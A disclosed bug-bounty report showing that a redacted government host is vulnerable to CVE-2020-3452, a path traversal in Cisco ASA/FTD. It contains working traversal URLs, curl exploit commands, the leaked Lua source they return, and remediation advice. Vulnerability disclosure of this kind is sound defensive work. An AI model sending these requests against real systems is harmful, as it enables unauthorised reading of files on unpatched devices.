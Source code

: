 # https://█████ is vulnerable to CVE-2020-3452 Read-Only Path Traversal Vulnerability

## Report Details
- **Report ID**: 940384
- **URL**: https://hackerone.com/reports/940384
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-07-24T05:12:21.294Z
- **Disclosed**: 2020-08-13T18:08:40.355Z

## Reporter
- **Username**: they
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
https://████████ is vulnerable to a [Read-Only Path Traversal Vulnerability](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86)

**Description:**
Get request parameters at the `/+CSCOT+/translation-table` and the `/+CSCOT+/oem-customization` are not properly sanitized which allows for reading files within the webroot directory that are not intended to be readable.

## Impact
An unauthenticated, remote attacker can read sensitive files located inside the webroot directory. 

## Step-by-step Reproduction Instructions
### Using Browser
1. Visit https://██████████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../ in browser and note that you are prompted for a file download. This will be the source code for `portal_inc.lua` which is not normally accessible.
2. To verify you cannot access this file normally, visit https://██████/+CSCOE+/portal_inc.lua and verify that you receive a page that says "Wrong URL".

### Using Curl
1. In a linux terminal, send the following `curl` command:

```
curl -i -s -k -X $'GET' \
    -H $'Host: ████████' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'DNT: 1' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    $'https://████████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../'
``` 

and

```
curl -i -s -k -X $'GET' \
    -H $'Host: ████' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'DNT: 1' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    $'https://██████████/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua'
```
You should receive the following output:

```
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Transfer-Encoding: chunked
Cache-Control: no-cache
Pragma: no-cache
Connection: Keep-Alive
Date: Fri, 24 Jul 2020 04:27:46 GMT
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=31536000; includeSubDomains

-- Copyright (C) 2006-2018 by Cisco Systems, Inc.
-- Created by otrizna@cisco.com

dofile("/+CSCOE+/include/common.lua")
dofile("/+CSCOE+/include/browser_inc.lua")

local function compare(a,b) return a["order"]<b["order"] end;

function INTERNAL_PASSWORD_ENABLED(name)
        return false;
```
2. To verify you should not be able to access this info, run the following `curl` command:

```
curl -i -s -k -X $'GET'  \
   -H $'Host: █████' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'DNT: 1' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1'   \
  $'https://███/%2bCSCOE%2b/portal_inc.lua'
```

You should receive the following output:

```
HTTP/1.1 500 Internal Error
Cache-Control: no-cache
Pragma: no-cache
Connection: Close
Date: Fri, 24 Jul 2020 04:28:13 GMT
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=31536000; includeSubDomains
```

## Screenshots in Burpsuite showing the requests succeeding and failing

### Success at https://███/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../ which results in disclosure of the source code in `portal_inc.lua`
█████████

### Failure trying to access https://███████/+CSCOE+/portal_inc.lua
███

## Suggested Mitigation/Remediation Actions
Upgrade to the latest version of Cisco ASA or Cisco FTD.

## References
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86
https://twitter.com/aboul3la/status/1286012324722155525

## Impact

CVSS Score: Base 7.5
Vector: [CVSS:3.1/CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N/E:X/RL:X/RC:X/CR:X/IR:X/AR:X/MAV:X/MAC:X/MPR:X/MUI:X/MS:X/MC:X/MI:X/MA:X](https://tools.cisco.com/security/center/cvssCalculator.x?version=3.1&vector=CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N)

An unauthenticated, remote attacker can read sensitive files located inside the webroot directory.

## Attachments
No attachments
